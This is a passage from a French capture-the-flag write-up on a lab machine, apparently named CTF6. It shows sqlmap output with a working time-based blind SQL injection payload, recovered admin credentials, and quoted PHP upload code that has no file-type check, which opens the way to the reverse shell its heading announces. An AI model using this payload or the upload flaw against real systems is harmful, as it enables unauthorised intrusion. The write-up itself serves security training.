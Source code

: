 ```console

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: username=test' OR SLEEP(5)-- RtzG&password=test
---
[02:02:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 5.10
web application technology: PHP 5.2.6, Apache 2.2.3
back-end DBMS: MySQL >= 4.1
```

## Formulaire d'upload et reverse shell

Le couple d'identifiants admin/adminpass permet de se connecter en tant qu'administrateur sur la plate-forme. Celui-ci a la possibilité de créer des articles sur le site, et d'y adjoindre une image via un formulaire d'upload. Or cette fonctionnalité n'est pas filtrée, car après plusieurs tests, on constate qu'aucune vérification n'est en place, sur l'extension ou le type du fichier.
![Affichage de l'image CTF6_admin_view.png](images/CTF6_admin_view.png)

Extrait du fichier add_event.php sur la fonctionnalité d'upload.

```php
if (isset($_FILES['upload'])) {
		$uploaddir = 'files/';
		$uploadfile = $uploaddir . basename($_FILES['upload']['name']);
		if (! move_uploaded_file($_FILES['upload']['tmp_name'], $uploadfile)) {
			$log->append("Log upload problem with file array: $_FILES");
			$log->append("Upload file name: $uploadfile");
			$log->append("Upload file tmp name: " . $_FILES['upload']['tmp_name']);
		}
	}
```
